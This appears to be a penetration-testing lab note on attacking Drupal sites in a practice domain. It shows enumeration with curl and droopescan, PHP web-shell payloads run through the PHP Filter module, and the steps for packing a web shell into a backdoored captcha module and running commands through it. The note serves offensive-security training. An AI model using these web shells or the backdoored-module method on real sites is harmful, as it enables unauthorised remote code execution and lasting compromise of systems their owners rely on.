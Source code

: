 # Drupal Attack

### Discovery/Footprinting

```shell-session
curl -s http://drupal.inlanefreight.local | grep Drupal
```

### Enumeration

```shell-session
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

```
droopescan scan drupal -u http://drupal-qa.inlanefreight.local
```

### Attacking Drupal

#### Leveraging the PHP Filter Module

* after login select php filters

```
http://drupal-qa.inlanefreight.local/#overlay=admin/modules
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

* From here, we could tick the check box next to the module and scroll down to `Save configuration`. Next, we could go to Content --> Add content and create a `Basic page`.

```
http://drupal-qa.inlanefreight.local/#overlay=node/add
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

```
http://drupal-qa.inlanefreight.local/#overlay=node/add/page
```

#### From version 8 onwards,

* the [PHP Filter](https://www.drupal.org/project/php/releases/8.x-1.1) module is not installed by default.
* To leverage this functionality, we would have to install the module ourselves.

```shell-session
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

* Once downloaded go to `Administration` > `Reports` > `Available updates`.

```
http://drupal.inlanefreight.local/admin/reports/updates/install
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* From here, click on `Browse,` select the file from the directory we downloaded it to, and then click `Install`.
* Once the module is installed, we can click on `Content` and create a new basic page, similar to how we did in the Drupal 7 example. Again, be sure to select `PHP code` from the `Text format` dropdown.

#### Uploading a Backdoored Module

* Drupal allows users with appropriate permissions to upload a new module.
* A backdoored module can be created by adding a shell to an existing module

```shell-session
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
```

```shell-session
tar xvf captcha-8.x-1.2.tar.gz
```

* Create a PHP web shell with the contents:

```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```

* Next, we need to create a .htaccess file to give ourselves access to the folder.
  * This is necessary as Drupal denies direct access to the /modules folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

```shell-session
mv shell.php .htaccess captcha
```

```shell-session
tar cvf captcha.tar.gz captcha/
```

* Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar
  * Next, click on the `+ Install new module` button, and we will be taken to the install page, such as `http://drupal.inlanefreight.local/admin/modules/install`&#x20;
  * Browse to the backdoored Captcha archive and click `Install`.

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

```shell-session
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
